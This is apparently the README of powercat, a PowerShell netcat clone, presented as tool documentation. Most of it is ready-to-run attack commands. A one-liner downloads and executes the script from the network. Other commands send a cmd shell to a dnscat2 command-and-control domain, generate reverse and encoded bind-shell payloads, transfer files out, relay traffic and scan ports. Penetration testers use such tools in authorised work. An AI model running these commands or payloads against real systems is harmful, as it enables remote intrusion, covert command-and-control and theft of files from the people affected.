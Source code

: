 
https://github.com/besimorhino/powercat

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

```powershell
Load The Function From Downloaded .ps1 File:
    . .\powercat.ps1
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

### Parameters:

```powershell
-l      Listen for a connection.                             [Switch]
-c      Connect to a listener.                               [String]
-p      The port to connect to, or listen on.                [String]
-e      Execute. (GAPING_SECURITY_HOLE)                      [String]
-ep     Execute Powershell.                                  [Switch]
-r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
-u      Transfer data over UDP.                              [Switch]
-dns    Transfer data over dns (dnscat2).                    [String]
-dnsft  DNS Failure Threshold.                               [int32]
-t      Timeout option. Default: 60                          [int32]
-i      Input: Filepath (string), byte array, or string.     [object]
-o      Console Output Type: "Host", "Bytes", or "String"    [String]
-of     Output File Path.                                    [String]
-d      Disconnect after connecting.                         [Switch]
-rep    Repeater. Restart after disconnecting.               [Switch]
-g      Generate Payload.                                    [Switch]
-ge     Generate Encoded Payload.                            [Switch]
-h      Print the help message.                              [Switch]
```

## Basic Connections

By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000
Basic Client, Output as Bytes:
    powercat -c 10.1.1.1 -p 443 -o Bytes
```

## File Transfer

powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).

```powershell
Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile
```

## Relays

Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.

```powershell
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
TCP Listener to UDP Client Relay:
    powercat -l -p 8000 -r udp:10.1.1.16:53
TCP Listener to DNS Client Relay
    powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
TCP Listener to DNS Client Relay using the Windows Default DNS Server
    powercat -l -p 8000 -r dns:::c2.example.com
TCP Client to Client Relay
    powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
TCP Listener to Listener Relay
    powercat -l -p 8000 -r tcp:9000
```

## DNS and UDP

powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**

```powershell
Send Data Over UDP:
    powercat -c 10.1.1.1 -p 8000 -u
    powercat -l -p 8000 -u
Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
    powercat -c 10.1.1.1 -p 53 -dns c2.example.com
Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
    powercat -dns c2.example.com -e cmd
```

## Generate Payloads

Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.

```powershell
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Generate a bind tcp encoded command which listens on port 8000:
    powercat -l -p 8000 -e cmd -ge
```

## Misc Usage

powercat can also be used to perform portscans, and start persistent servers.

```powershell
Basic TCP Port Scanner:
    (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```

#shell #reverseshell #filetransfer #relays #portscan #fileserver